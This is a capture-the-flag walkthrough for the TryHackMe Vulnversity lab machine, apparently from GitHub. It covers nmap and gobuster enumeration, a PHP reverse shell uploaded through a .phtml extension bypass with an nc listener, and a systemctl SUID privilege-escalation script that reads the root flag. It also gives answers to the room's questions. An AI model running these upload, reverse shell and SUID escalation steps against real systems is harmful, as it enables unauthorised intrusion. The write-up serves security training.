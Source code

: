 # Tryhackme - Vulnversity - Linux

- [Room](https://tryhackme.com/room/vulnversity)

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T5 -sC -sV -O -Pn -p- 10.10.72.158
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-08 14:04 EDT
Warning: 10.10.72.158 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.72.158
Host is up (0.22s latency).
Not shown: 65508 closed tcp ports (reset)
PORT      STATE    SERVICE       VERSION
21/tcp    open     ftp           vsftpd 3.0.3
22/tcp    open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp   open     netbios-ssn   Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open     netbios-ssn   Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1281/tcp  filtered healthd
3128/tcp  open     http-proxy    Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp  open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Vuln University
|_http-server-header: Apache/2.4.18 (Ubuntu)
[STRIPPED]
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Linux 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2022-05-08T14:16:34-04:00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-05-08T18:16:34
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 710.19 seconds
```

## Initial foothold

If we go to http://10.10.72.158:3333/ we have a website.
However the content is not really useful for us.
We can run gobuster, that is how we find the folder internal
```
┌──(root💀kali)-[~/Documents/tryhackme/vulnversity]
└─# gobuster dir -u http://10.10.72.158:3333/ --wildcard -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.72.158:3333/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/08 14:17:29 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 320] [--> http://10.10.72.158:3333/images/]
/css                  (Status: 301) [Size: 317] [--> http://10.10.72.158:3333/css/]   
/js                   (Status: 301) [Size: 316] [--> http://10.10.72.158:3333/js/]    
/fonts                (Status: 301) [Size: 319] [--> http://10.10.72.158:3333/fonts/] 
/internal             (Status: 301) [Size: 322] [--> http://10.10.72.158:3333/internal/]
```
- This a page with a file upload fonctionnality. This is perfect for a reverse shell  
![image](https://user-images.githubusercontent.com/96747355/167309849-79c67895-2633-4426-897a-7d7ad3aa1f5a.png)  
- After a few tries with burp, the accepted exentions is phtml. You can also fuzz it with burp intruder and make a grep match on "extension not allowed" to see which one will be allowed.
- We edit php revershell (on kali we have it preinstalled) `cp /usr/share/webshells/php/php-reverse-shell.php .` we rename it in the accepted extension `mv php-reverse-shell.php php-reverse-shell.phtml` 
- `nc -lvp 4444` We set up our listener
- Now as mentioned we just need to go to `http://<ip>:3333/internal/uploads/php-reverse-shell.phtml ` to execute our shell (if this was not specified we could have run gobuster in the internal folder
- We get a shell as `www-data`


## Privesc

- Now let's enumerate our ways to privesc
- `find / -perm -u=s -type f 2>/dev/null` We have a few files with suid bit on
```
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
- We have a GTFOBins entry for `/bin/systemctl` [here](https://gtfobins.github.io/gtfobins/systemctl/#suid)
- Let's try the exploitation
  - It creates a service in an env
  - It will create a temp file in the syst as a service
  - This will execute a command with bin/sh (in GTFObins it will execute id) in our case we could try to output our root flag in the output folder. It will then set a link and enable it
- Here is our modified script
```
TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
- Once we pasted all our commands above we just need to `cat /tmp/output` and this will give us the root flag.

## Questions

### Task 2

- `Scan the box, how many ports are open?` Answer `6`
- `What version of the squid proxy is running on the machine?`Answer `3.5.12`
- `How many ports will nmap scan if the flag -p-400 was used?` Answer `400`
- `Using the nmap flag -n what will it not resolve?` Answer `DNS`
- `What is the most likely operating system this machine is running?` Answer `Ubuntu`
- `What port is the web server running on?` Answer `3333`

### Task 3

- `What is the directory that has an upload form page?` Answer `/internal/`

#### Task 4

- `Run this attack, what extension is allowed?` Answer `phtml`
- `What is the name of the user who manages the webserver?` Answer `bill`
- `What is the user flag?` I will let you do this on your own Hint: `cat /home/bill/user.txt`

#### Task 5

- `On the system, search for all SUID files. What file stands out?` Answer `/bin/systemctl`
- `Become root and get the last flag (/root/root.txt)` I will let you do this on your own Hint: `cat /root/root.txt`
